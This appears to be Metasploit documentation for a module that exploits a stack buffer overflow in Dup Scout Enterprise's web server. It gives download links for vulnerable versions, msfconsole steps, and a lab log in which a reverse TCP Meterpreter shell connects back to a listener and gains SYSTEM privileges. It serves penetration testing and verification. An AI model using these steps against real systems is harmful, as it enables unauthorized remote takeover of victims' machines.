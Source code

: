 ## Vulnerable Application

This module exploits a stack-based buffer overflow vulnerability
in the web interface of [Dup Scout Enterprise](http://www.dupscout.com)]
versions <= 10.0.18, caused by improper bounds checking of the request
path in HTTP GET requests sent to the built-in web server which can be
leveraged to execute arbitrary code in the context of NT AUTHORITY\SYSTEM.

This module supports x86 versions of Dup Scout Enterprise and x86
Windows operating systems only and has been tested successfully on
Windows 7 SP1 (x86) and Windows XP SP0 (x86).

## Verification Steps

Download:

* https://www.exploit-db.com/apps/84dcc5fe242ca235b67ad22215fce6a8-dupscoutent_setup_v10.0.18.exe
* https://www.exploit-db.com/apps/d83948ebf4c325eb8d56db6d8649d490-dupscoutent_setup_v9.9.14.exe
* https://www.exploit-db.com/apps/4ead3eadc19bf3511e8dfd606624e310-dupscoutent_setup_v9.1.14.exe
* https://www.exploit-db.com/apps/3ca0c9aee534994bc6894bfb309e5a4f-dupscoutent_setup_v9.0.28.exe
* https://web.archive.org/web/20170302/http://www.dupscout.com/setups/dupscoutent_setup_v9.0.28.exe
* https://web.archive.org/web/20160408/http://www.dupscout.com/setups/dupscoutent_setup_v8.3.16.exe
* https://web.archive.org/web/20160826/http://www.dupscout.com/setups/dupscoutent_setup_v8.4.16.exe

Install the application from the link above and enable the web server by going to
Tools -> Advanced Options -> Server -> Enable Web Server on Port.

Metasploit:

1. Start msfconsole
1. Do: `use exploit/windows/http/dupscts_bof`
1. Do: `set rhosts <rhosts>`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Dup Scout Enterprise v9.9.14 on Windows 7 SP1 (x86)

```
msf6 > use exploit/windows/http/dupscts_bof
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/dupscts_bof) > set rhosts 172.16.191.213
rhosts => 172.16.191.213
msf6 exploit(windows/http/dupscts_bof) > check
[*] 172.16.191.213:80 - The target appears to be vulnerable. Dup Scout Enterprise version 9.9.14.
msf6 exploit(windows/http/dupscts_bof) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf6 exploit(windows/http/dupscts_bof) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Dup Scout Enterprise version 9.9.14.
[*] Selecting a target...
[*] Using target: Dup Scout Enterprise v9.9.14 (x86)
[*] Sending payload (8577 bytes) ...
[*] Sending stage (175174 bytes) to 172.16.191.213
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.213:49380) at 2021-02-25 11:29:52 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-7-ULTIMATE-
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

